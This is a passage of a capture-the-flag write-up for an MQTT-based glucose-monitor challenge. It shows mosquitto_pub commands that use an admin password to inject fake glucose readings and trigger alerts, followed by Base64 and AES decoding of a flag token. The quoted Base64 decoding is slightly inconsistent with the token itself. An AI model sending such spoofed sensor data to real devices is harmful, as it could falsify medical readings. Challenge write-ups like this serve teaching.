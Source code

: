 ```
ph0wn18/alert Hmm. Someone's trying to hack me? You're getting close.
```

We try with a high level of glucose.
```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '5000'
```

If we have subscribed to all topics, we'll see promising messages on the `ph0wn18/flag` topic:

```
ph0wn18/glucose-level 67
ph0wn18/glucose-level 5000
ph0wn18/flag Nice try. Try and generate another type of alert.
```

We try with a low level of glucose:

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/glucose-level' -u admin -P Sugar1sBaaaaaaad -m '-10'

ph0wn18/glucose-level -10
ph0wn18/alert Hypoglycemia risk!!
ph0wn18/info Ensure your team id is correctly set in ph0wn18/teamid - or set it (admin required)
```

We set our team id and re-send a very low glucose level.

```
$ mosquitto_pub -d -h SERVER -p 1883 -t 'ph0wn18/teamid' -u admin -P Sugar1sBaaaaaaad -m 'team2'
```

We get an encrypted token:

```
ph0wn18/flag Encrypted token: VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA=
```

### Decrypting the token

The flag message talks about an "encrypted" token. We recognize it uses Base64:

```python
token = 'VXNlIGFkbWluIHBhc3N3b3JkIHRvIGRlY3J5cHQgQUVTOiBjRD3ndvozFLDfPnaJ7GpENVuftgJgG6jdwpKdb6Q5lfDNqgJbCKVQ5tdAxvLdHFA='
base64.b64decode(token)
```

and it decrypts to : "Use team password to decrypt AES: cD=\xe7v..."


Each team has its own team key. So we decrypt:

```python
from Crypto.Cipher import AES
cipher = AES.new('YOUR TEAM PASSWORD')
cipher.decrypt('cD=\xe7v\xfa3\x14\xb0\xdf>v\x89\xecjD5[\x9f\xb6\x02`\x1b\xa8\xdd\xc2\x92\x9do\xa49\x95\xf0\xcd\xaa\x02[\x08\xa5P\xe6\xd7@\xc6\xf2\xdd\x1cP')
```

The result is : `ph0wn{ur_lucky_no_diab4te_h4r3} `

[Source code](./mqtt-solve.py)
